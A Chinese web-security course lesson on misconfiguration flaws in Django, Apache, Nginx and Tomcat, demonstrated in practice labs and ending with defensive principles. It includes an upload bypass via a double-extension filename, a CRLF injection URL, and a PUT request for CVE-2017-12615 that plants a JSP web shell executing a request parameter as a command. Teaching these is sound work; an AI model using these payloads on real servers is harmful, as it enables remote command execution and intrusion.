# 28 | 安全配置错误：安全问题不只是代码安全

你好，我是王昊天。

不知道你是否看见过下面这张图片？它是我们在使用 Django 编写后端程序时，经常会看到的报错页面。在这个报错页面中，我们可以看到这个 Web 应用的所有路径，这对于 Web 应用来说是极其危险的。



从页面最下方的提示信息中，我们可以知道，这是由于我们在 Django 的配置文件中，没有将DEBUG 改为 False 导致的。所以这就是一个由于配置错误导致的 Web 应用安全问题。

其实，在 Web 应用中，安全配置问题还是很普遍的，这节课就让我们一起来深入学习下吧！

## 安全配置错误

在 Web 应用中，由于安全配置错误导致的安全问题屡见不鲜，这里我选取了 Web 应用中典型的一些安全配置问题来讲解，它们分别为 Apache 配置安全问题、Nginx 配置安全问题以及Tomcat 配置安全问题，下面我们逐一看下。



### Apache 配置安全问题

Apache 是世界使用排名第一的 Web 服务器软件。它的兼容性很好，可以在 Linux 系统以及Windows 系统中运行。Web 应用开发者可以用它来运行开发的 Web 服务。

我们可以将它简单理解为，当在一台机器上配置好 Apache 服务器，可利用它响应 HTML 页面的访问请求。

Apache 软件有一个配置文件，它通常为 httpd.conf，我们在启动自己的 Web 应用前，首先需要对它进行配置的修改。



如果我们希望，Apache 在遇到扩展名为 PHP 的页面文件时，将它用 x-httpd-php 来解析，那

```
么我们就可以在配置文件中添加代码 AddHandler application/x-httpd-php .php。
```

之后，重启 Apache 服务，配置就能生效。



而这个配置会导致一定的安全隐患，接下来让我们借助一个示例，看看它会带来什么安全隐患吧。

在此之前，我们需要学习一下 Apache 的基本特性。



Apache 是从前往后开始识别文件扩展名的，例如遇到文件 test.php.xyz.jpg 时，它会将 PHP识别为文件的扩展名，从而根据之前的配置，选择用 x-httpd-php 来对它进行解析。

这样，我们就做好了所有的前期准备工作。下面，我们一起来看这个安全隐患。



这是一个文件上传靶场，由于我们将它的安全等级设为高，所以它可以成功拦截所有 PHP 后缀的文件，这样做可以防止攻击者上传 PHP 恶意文件，从而保护 Web 应用的安全。

但是我们可以将恶意 PHP 文件名设置为 test.php.xyz.jpg，这样就能绕过文件上传检测，成功将这个文件上传到 images 文件中。

其中这个 test.php.xyz.jpg 的内容为：

```
<?php phpinfo();?>
```

之后，我们尝试对其进行访问，发现 Apache 服务器无法解析这一文件。所以这个 Web 应用目前是安全的，攻击者无法通过上传文件 test.php.xyz.jpg 去执行恶意的 PHP 代码。



```
如果我们在 Apache 的配置文件 apache2.conf 中加入这一项 AddHandler
application/x-httpd-php .php。然后重启 Apache2 服务。
```



那么我们再次访问上传的文件，获得到的响应内容就变为如下：



这里可以看到，我们上传的恶意 PHP 代码已经被执行。这个 Web 应用不再安全。

在这个示例中，原本的 Web 应用是安全的，它成功拦截了以.php 结尾的文件的上传，并且不允许用 x-httpd-php 来解析结尾不是.php 的文件，这是无懈可击的，攻击者根本无法让这个Web 应用去执行恶意 PHP 脚本。

可是，如果 Web 应用开发者，在配置文件中进行错误的配置，例如这里加上 AddHandlerapplication/x-httpd-php .php，就会使得 Web 应用可以用 x-httpd-php 来解析 PHP 类型的文件，就算它的结尾不是.php。这给了攻击者可乘之机，让 Web 应用处于危险之中。

到这里，你已经学完了 Apache 中的安全配置问题，这会让你对安全配置问题有更具体的理解。其实在 Nginx 中也会有安全配置问题，接下来我们就一起看看。

### Nginx 配置安全问题

Nginx 是一个高性能的 HTTP 和反向代理 Web 服务器，我们可以在 Unix 以及 Linux 中运行它。它的应用非常广泛，我们熟知的百度、京东、新浪、网易以及腾讯都有使用到这款软件。



在使用这款软件时，我们必须正确的对它进行配置，否则容易导致一些安全问题。

例如，当 Nginx 配置不当，就会导致 CRLF 注入的发生。所谓 CRLF 其实就是两个字符，CR与 LF，它们分别代表回车以及换行。事实上，在 HTTP 报文中，行与行之间使用的就是CRLF 间隔。

接下来，为了帮助你更好地理解 Nginx 配置的安全问题，让我们一起来看一个示例吧。

下方代码是一个 Nginx 配置文件，你可能对它不太熟悉，不过不要着急，我会给你分析配置中的安全问题。

```
server {
      listen 8080;
      root /usr/share/nginx/html;
      index index.html;
      server_name _;
      location / {
      return 302 https://$host$uri;
  }
}
```

在这个 Nginx 配置文件中，存在问题的配置在最后一行，我们只需要关注这一部分即可。

```
return 302 https://$host$uri;
```

这行代码，可以使得原本对主机的 HTTP 的请求，跳转到 HTTPS 请求上。我们可以将其中的

```
$host，简单理解为原始请求中的 host 信息，而 $uri 则是安全问题产生的关键，它代表着
```

请求中解码后的请求路径。你可能觉得这里并没有什么问题，可如果攻击者将请求的 URL 信息设置为如下：

```
http://ip:port/%0a%0dSet-Cookie:%20a=test
```

这个 URL 中，%0a 经过解码之后就是 CR，%0d 经过解码之后则为 LF，%20 解码之后对应为空格。所以 Nginx 在对 $uri 进行解码时，会将 %0a%0d 解码为 CRLF，这会使得 HTTP 报文换行，然后发起 Set-Cookie 的请求，这就是 CRLF 注入的效果。

下面，我们一起看上述内容的实例。注意，这里靶场中的 Nginx 配置和上面图片中一致。



我们首先访问了 127.0.0.1:8080 服务，发现 Nginx 成功让页面跳转到 HTTPS 服务，并且页面中也没有 cookie 信息。其中这里页面显示无法访问此网站，这是因为靶场仅用来演示 Nginx配置问题，并没有实际页面支撑，所以导致没有页面内容返回，但它对我们的测试不会造成影响。



接着，我们对这个 Web 应用发起攻击，对 127.0.0.1:8080/%0a%0dSet-Cookie:%20a=test 进行访问，结果发现页面同样跳转为 HTTPS 服务，不过此时多出了响应 Cookie 信息。这表明我们的 CRLF 注入成功，并且成功执行了 Set-Cookie 指令。

现在，你已经了解了 Nginx 配置相关的安全问题，知道了它其实就是由 CRLF 注入导致的。接下来，让我们继续学习 Tomcat 中的安全配置问题吧。

### Tomcat 配置安全问题

首先，我们来了解下 Tomcat 是什么？

Tomcat 服务器是一个免费的开放源代码的 Web 应用服务器，属于轻量级应用服务器，在中小型系统和并发访问用户不是很多的场合下被普遍使用。实际上，Tomcat 是 Apache 服务器的扩展，但运行时它是独立运行的，所以当你运行 Tomcat 时，它实际上是作为一个与 Apache独立的进程单独运行。

在对它有了一定的了解之后，我们来对 Tomcat 做一些安全性分析。Tomcat 中存在一个知名的安全配置问题，它就是 CVE-2017-12615。具体的问题体现为，当 Tomcat 运行在 Windows主机上，并且在 conf/web.xml 的配置文件中将 DefaultServlet readonly 设置为 false，那么如果它启用了 HTTP PUT 请求方法，就会导致任意写文件的安全问题发生。

接下来，让我们通过实战，加深一下对 Tomcat 配置安全问题的理解吧。

首先，登录谜团（mituan.zone）并选择【Tomcat 专题：CVE-2017-12615】靶机，如果你可以看到如下页面，那就成功打开了我们的靶场。



其次，我们要测试一下是否可以上传文件到服务器目录下。具体的实践方式为，使用BurpSuite 拦截该网页，获取到如下报文：

```
GET / HTTP/1.1
Host: 45e308724beb41f1943f19e8652afb2e.app.mituan.zone:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML,
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/we
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

然后我们将它进行修改为如下报文，并进行发送。

```
PUT /1.jsp/ / HTTP/1.1
Host: 45e308724beb41f1943f19e8652afb2e.app.mituan.zone:8080
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML,
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/we
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
<%
       java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("
     int a = -1;
     byte[] b = new byte[2048];
     out.print("<pre>");
     while((a=in.read(b)) != -1){
                   out.println(new String(b));
           }
     out.print("</pre>");
%>
```

修改后的报文，可以向 Tomcat 服务器尝试写入 1.jsp 文件。其中 1.jsp 文件的内容为报文下方<% %> 内的部分。这部分的功能就是获取 get 方式上传的参数 i，并将它当作命令去执行。

```bash
接下来，我们去测试尝试的攻击行为是否成功。访问路径 /1.jsp?i= ls -l，其中 1.jsp
就是我们刚刚写入的文件，而 ?i=ls -l，这是通过 get 方式上传参数 i，并将它的值设为
ls -l。
```



我们发现页面的响应为一些文件信息，这代表我们的 ls -l 命令运行成功，也代表这个Tomcat 服务器存在安全配置问题。

到这里，我们已经知道安全配置错误的危害还是较为严重的，所以我们在设计一个 Web 应用时，要注意对安全配置错误的避免。接下来让我们进入到安全实践中，总结一下如何避免安全配置错误。

## 安全实践

为了避免安全配置错误的发生，我们在配置 Web 应用时需要遵守几个原则。

第一个原则为最小服务原则，我们需要将 Web 应用不需要的服务进行关闭或限制，防止攻击者通过这些服务发起恶意行为。

第二个原则为通用化的报错设置，即我们需要将 Web 应用的报错信息设置得通用化，使得报错信息中不包含错误发生的细节信息，防止因此导致的敏感信息泄露。

第三个原则为修改默认账户信息，我们需要将 Web 应用默认的账户信息进行修改，尽量让账户密码变得复杂，否则攻击者很容易就会猜出账户信息，登陆进 Web 应用的管理后台。

## 总结

在这节课程中，我们学习了安全配置错误。

首先，我们通过 Django 示例，来了解什么是安全配置错误。接着我们更加深入的对典型的Web 应用安全配置问题进行了逐一的学习。

我们第一个学习的是 Apache 相关的安全配置问题。在对这一部分的学习中，我们通过上传一个扩展名复杂的文件，绕过了 Web 应用对于上传文件类型的检测过滤。然后再利用 Apache配置不当的问题，使得这一文件被 x-httpd-php 解析成功。这样就使得攻击者可以实现任意PHP 代码执行。

接下来，我们学习了 Nginx 相关的安全配置问题。在对它的学习中，我们了解到 Nginx 是一个高性能的 HTTP 和反向代理 Web 服务器。如果对于它的配置方式不当，就会使得 CRLF 注入的发生。然后我们通过示例，知道了攻击者可以通过 CRLF 注入进而实现对 HTTP 请求指令的设置。

接着，我们学习了 Tomcat 相关的安全配置问题，了解到如果对它的配置不当，就会产生任意写入文件问题。在实战部分中，我们还利用这个问题成功实现了任意命令执行操作。

最后，我们学习了如何抵御安全配置错误，了解到主要可以通过最小服务原则、通用化报错设置以及修改默认账户来提升我们 Web 应用的安全性。

## 思考题

除了这节课中提到的安全配置错误，你还能想到其他 Web 应用相关的安全配置错误吗？

欢迎在评论区留下你的思考。如果觉得今天的内容对你有所帮助的话，也欢迎你把课程分享给其他同事或朋友，我们共同学习进步！
